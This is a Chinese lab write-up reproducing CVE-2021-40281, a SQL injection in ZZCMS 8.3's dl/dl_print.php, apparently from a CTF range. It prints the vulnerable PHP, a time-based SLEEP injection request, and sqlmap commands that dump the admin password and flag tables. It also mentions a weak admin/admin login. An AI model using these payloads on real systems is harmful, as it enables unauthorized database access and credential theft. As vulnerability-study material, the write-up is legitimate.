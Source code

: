```yaml
---
title: CVE-2021-40281【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中dl/dl_print.php存在sql注入

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-40281)

## 2. 漏洞分析

[原理 + POC](https://gist.github.com/aaaahuia/583b062b686cdff27554e3c6fa5ac94e)

原理+POC备份

vulnerability code:

in file `dl/dl_print.php`

```php
<?php
include("../inc/conn.php");
...
#line 29-40
$id="";
$i=0;
if(!empty($_POST['id'])){
    for($i=0; $i<count($_POST['id']);$i++){
    $id=$id.($_POST['id'][$i].',');
    }
	
}else{
	$founderr=1;
	$ErrMsg="<li>操作失败！请先选中要下载的信息</li>";
}
$id=substr($id,0,strlen($id)-1);//去除最后面的","
...
#line 77-83
if (strpos($id,",")>0){
	$sql="select * from zzcms_dl where passed=1 and id in (". $id .") ";
	}else{
	$sql="select * from zzcms_dl where passed=1  and id=".$id." order by id desc";
}
	
$rs=query($sql);
```

Before you exploit the vulnerability, you need to visit this link to register users:

[http://127.0.0.1/reg/userreg.php](http://127.0.0.1/reg/userreg.php)

When you have an account, visit this link and the POC is as follows.

POC:

```http
POST /dl/dl_download.php HTTP/1.1
Host: your host
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://zzcms.com
Connection: close
Referer: http://zzcms.com/dl/dl_download.php
Cookie: UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6
Upgrade-Insecure-Requests: 1

id[0]=0&id[1]=1 AND (SELECT 5584 FROM (SELECT(SLEEP(9)))a)
```

sleep(9):

Screenshot link:[http://39.101.130.53/image-20210827005508639.png](http://39.101.130.53/image-20210827005508639.png)

You can also use sqlmap to verify this vulnerability. The specific usage is as follows:

**Note: please replace cookies and URLs with your own and make sure they are correct**

```shell
python sqlmap.py -u "http://zzcms.com/dl/dl_print.php" --cookie="UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6" --method POST --data "id[0]=0&id[1]=1" -p id[1] --tamper="between.py" --current-user --batch
```

Screenshot link:[http://39.101.130.53/image-20210827005636669.png](http://39.101.130.53/image-20210827005636669.png))

After waiting for a while, you can get the information you query, or you can change the statement. For example, the following statement is used to query the password of the administrator user:

```shell
python sqlmap.py -u "http://zzcms.com/dl/dl_print.php" --cookie="UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6" --method POST --data "id[0]=0&id[1]=1" -p id[1] --tamper="between.py" -D zzcms2021 -T zzcms_admin -C pass --dump  --batch
```

Screenshot link:[http://39.101.130.53/image-20210827010301240.png](http://39.101.130.53/image-20210827010301240.png))

## 3. 漏洞复现

开启环境后尝试访问 /dl/dl_print.php，结果被重定向至用户登录界面，尝试注册个账号，以失败告终。找管理员登录界面尝试用弱口令登录【admin/login.php：admin/admin】成功！在用户管理界面看到有几个待审用户，修改审核信息，再次到前面的用户登录界面登录。发布几个代理信息然后打印并抓包。

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050975.png)

![6.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191052062.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050417.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050564.png)

sqlmap 示例

```shell
python sqlmap.py -u http://eci-2zebvn4b2ryprk38t4fa.cloudeci1.ichunqiu.com/dl/dl_print.php --cookie="UserName=22222; PassWord=934b535800b1cba8f96a5d72f72f1611" --method POST --data "id[0]=5&id[1]=1" -p id[1] --tamper="between.py" --dbs --batch
………………
python sqlmap.py -u http://eci-2zebvn4b2ryprk38t4fa.cloudeci1.ichunqiu.com/dl/dl_print.php --cookie="UserName=22222; PassWord=934b535800b1cba8f96a5d72f72f1611" --method POST --data "id[0]=5&id[1]=1" -p id[1] --tamper="between.py" --batch -D zzcms -T flag -C flag --dump
```

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191051773.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191051774.png)

注，也可以直接将抓到的包存为 post.txt【可以删掉`FileExt=xls&sql=select+count%28*%29+as+total+from+zzcms_dl+where+passed%3C%3E0++and+classid%3D1&chkAll=checkbox&`】，用 sqlmap 跑【就是感觉有点慢】

```python
python sqlmap.py -r post.txt  -p id[1] --tamper="between.py" --batch --dbs --level=5 --risk=3
```

![7.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191058465.png)
